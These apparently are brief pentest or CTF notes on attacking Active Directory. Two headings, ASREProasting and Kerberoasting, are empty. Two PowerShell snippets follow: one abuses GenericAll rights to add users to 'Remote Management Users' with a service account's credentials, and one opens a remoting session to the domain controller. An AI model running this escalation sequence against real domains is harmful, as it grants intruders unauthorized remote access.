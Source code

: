 ### Users Description

### ASREProasting


### KERBroasting


### GenericAll Abuse
```powershell
Add-ADGroupMember -Identity "Remote Management Users" -Members helpdesk, pparker -Credential $ldapsvc -Server $dc
###
(Get-DomainGroup  -Identity "Remote Management Users" -Domain $domain -Server $dc -Credential $helpdesk).member
###
Add-DomainGroupMember -Identity  "Remote Management Users"  -Members 'helpdesk','pparker' -Credential $ldapsvc
```

### Powershell Remoting!!!
```powershell
$helpdeskSess = New-PSSession -ComputerName $dc -Credential $helpdesk
###
Enter-PSSession -Session $helpdeskSess
```
